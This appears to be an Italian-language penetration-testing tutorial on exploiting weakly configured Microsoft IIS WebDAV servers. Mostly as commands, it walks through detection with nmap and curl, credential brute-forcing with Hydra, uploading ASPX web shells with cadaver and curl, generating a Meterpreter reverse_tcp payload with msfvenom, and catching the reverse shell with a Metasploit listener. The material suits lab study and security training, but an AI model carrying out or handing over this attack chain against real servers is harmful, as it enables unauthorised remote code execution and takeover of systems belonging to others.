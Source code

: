 # Microsoft IIS WebDAV – Introduzione e Exploit
**WebDAV (Web Distributed Authoring and Versioning)** è un protocollo composto da un set di estensioni HTTP che consentono agli utenti di modificare e gestire in modo collaborativo i file su server web remoti. <br>
WebDAV espone in genere la stessa porta del sito (80/443) e supporta metodi aggiuntivi come `PROPFIND`, `MKCOL`, `PUT`. <br>

Una configurazione debole (per‑mancanza di ACL o controllo sul metodo **PUT**) consente a un attaccante di **caricare ed eseguire file arbitrari**, ottenendo RCE.

---

## 1 – Rilevazione del servizio WebDAV

`nmap -p80,443 --script=http-enum <IP>` ⟶ lo script individua directory WebDAV note. <br>
Dopo aver confermato la presenza di WebDAV, possiamo testare il suo comportamento con: <br>
`davtest -url http://<IP>/webdav` ⟶ sonda metodi (PUT, MKCOL, PROPFIND) e verifica upload se non é protetta da password. <br>
`curl -X OPTIONS http://<IP>/webdav -i` ⟶ elenca i metodi HTTP; se `PUT` è presente, è vulnerabile. <br>

---

## 2 – Brute‑force credenziali (opzionale)

Una volta confermata la vulnerabilità, possiamo tentare di scoprire le credenziali di accesso usando Hydra: <br>
`hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/common_passwords.txt -s 80 -f -u <IP> http-get /webdav` <br>

* `-L` / `-P` puntano ai file utenti / password. <br>
* `-s 80` specifica la porta. <br>
* `-f` interrompe alla prima coppia valida. <br>
* `-u` mantiene la stessa connessione. <br>

Se il server usa HTTPS, sostituisci `http-get` con `https-get` e porta 443: <br>

---

## 3 – Verifica upload con **davtest**

dopo aver scoperto le credenziali di accesso, analizziamoi il comportamento usando davtest: <br>
`davtest -auth <user>:<pass> -url http://<IP>/webdav` ⟶ stessa prova ma autenticata. <br>

Se `PUT` va a buon fine, verrà indicato “SUCCESS” per l’estensione caricata.

---

## 4 – Upload di una Web‑Shell con **cadaver**

`cadaver http://<IP>/webdav` ⟶ client WebDAV interattivo. <br>
`put C:\\webshell\\cmd.aspx` ⟶ carica la web‑shell ASPX. <br>

Tutte le web shells disponibili su kali sono visualizzabili al path 
`/usr/share/webshells`

Dopo aver caricato una webshell, ricaricando la pagina del browser dov’era aperta la pagina di WebDAV, possiamo visualizzare la shell caricata quindi, cliccando su di essa per eseguirla, potremmo avere una schermata con la possibilità di inserire dei comandi

---

## 5 – Upload via curl (metodo rapido)
possiamo anche caricare la shell usando curl:

`curl -T shell.aspx http://<user>:<pass>@<IP>/webdav/shell.aspx` ⟶ carica shell ASPX. <br>

---

## 6 – Generazione Payload con **msfvenom**
é possibile generare una shell usando msfvenom: 

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<KaliIP> LPORT=<Port> -f aspx > shell.aspx` <br>

Carica `shell.aspx` via `cadaver` o `curl`; una volta richiamato, avrai la sessione Meterpreter.

---

## 7 – Listener Metasploit

`use multi/handler` ⟶ modulo listener generico. <br>
`set payload windows/meterpreter/reverse_tcp` ⟶ definisce il payload. <br>
`set LHOST <KaliIP>` ⟶ IP della macchina Kali. <br>
`set LPORT <Port>` ⟶ porta configurata nel payload. <br>
`run` ⟶ avvia il listener in attesa della connessione. <br>

e successivamente eseguiamo la shell caricata sul target con `cadaver` o `curl`

Queso processo é totalmente automatizzabile usando il modulo: <br>
`exploit/windows/iis/iis_webdav_upload_asp`

---
